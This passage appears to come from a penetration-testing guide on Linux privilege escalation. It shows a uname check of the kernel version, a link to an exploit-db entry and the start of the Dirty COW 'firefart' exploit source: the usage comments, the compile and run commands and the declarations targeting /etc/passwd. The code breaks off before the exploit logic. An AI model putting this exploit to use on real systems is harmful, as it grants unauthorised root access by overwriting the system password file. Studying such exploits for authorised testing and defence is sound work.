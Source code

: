 ## Escalation via Kernel Exploits
First get the kernel version. This can be done by the command previously shown
``` bash
$ uname -a
Linux hackbox 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
```
Then try to google it and you might find some result like this
https://www.exploit-db.com/exploits/40839

``` c
//
// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at
//

#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;
```